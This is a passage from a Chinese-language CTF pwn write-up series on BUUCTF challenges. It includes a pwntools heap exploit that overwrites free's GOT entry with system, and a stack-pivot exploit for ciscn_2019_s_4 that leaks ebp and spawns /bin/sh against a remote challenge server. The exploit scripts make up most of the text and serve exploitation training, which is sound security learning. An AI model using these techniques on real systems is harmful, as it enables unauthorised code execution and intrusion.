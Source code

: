 ```python
def update(index, desclen, desc):
	io.sendlineafter(b'Action: ', b'3')
	io.sendlineafter(b'index: ', str(index).encode())
	io.sendlineafter(b'text length: ', str(desclen).encode())
	io.sendafter(b'text: ', desc)
	
add(0x20, 0x20, b'/bin/sh', b'colin')	# user #0
add(0x20, 0x20, b'colin', b'colin')		# user #1
add(0x20, 0x20, b'colin', b'colin')		# user #2
delete(1)
payload = cyclic(0x80)
payload += p32(0)		# prev size of user_#2.desc
payload += p32(0x29)	# size of user_#2.desc
payload += b'\x00' * 0x20
payload += p32(0)		# prev size of user_#2.userinfo
payload += p32(0x89)	# size of user_#2.userinfo
payload += p32(elf.got['free'])	# change the desc pointer to .plt.got
add(0x80, 0x100, payload, b'colin')	# user #3, desc chunk = userinfo #1
show(2)
io.recvuntil(b'description: ')
free = u32(io.recv(4))
print(hex(free))
libc = LibcSearcher('free', free)
base = free - libc.dump('free')
sys = base + libc.dump('system')
update(2, 4, p32(sys))
delete(0)
io.interactive()
```
# buu056-ciscn_2019_s_4
这题的vuln函数里面有两个输入，第一个输入我们通过printf套出来ebp的地址，可以计算得到我们输入的字符串的地址，之后第二个输入将ebp修改到字符串里面，返回到一个函数内部，在没有push ebp的前提下，leave指令会首先进行mov esp, ebp操作，将esp强制上抬到我们的字符串中间，将system地址写到字符串中即可getshell。注意字符串'/bin/sh'要写到system地址高地址处，防止system函数内部覆盖字符串。
```python
from pwn import *
context.log_level='debug'
# io = process('./pwn')
io = remote('node4.buuoj.cn', 28199)
elf = ELF('./pwn')
io.sendline(cyclic(40-1))
io.recvuntil('Hello, ')
io.recv(40)
ebp = u32(io.recv(4))
print(hex(ebp))
buf_addr = ebp - 0x38
payload = p32(elf.plt['system'])        # offset: 0x0
payload += p32(elf.symbols['main'])     # offset: 0x4
payload += p32(buf_addr + 0xC)          # offset: 0x8
payload += b'/bin/sh\x00'               # offset: 0xC
payload += cyclic(0x14)                 # 0ffset: 0x14
payload += p32(buf_addr - 4)            # ebp
payload += p32(0x8048562)               # ret addr: leave; ret
io.send(payload)
io.interactive()
```
# buu057-hitcontraining_magicheap
和第39题完全相同，除了magic和heaparray的地址少了0x20。略过。
# buu058-axb_2019_fmt32
格式化字符串题。首先通过调试找到格式化字符串的偏移：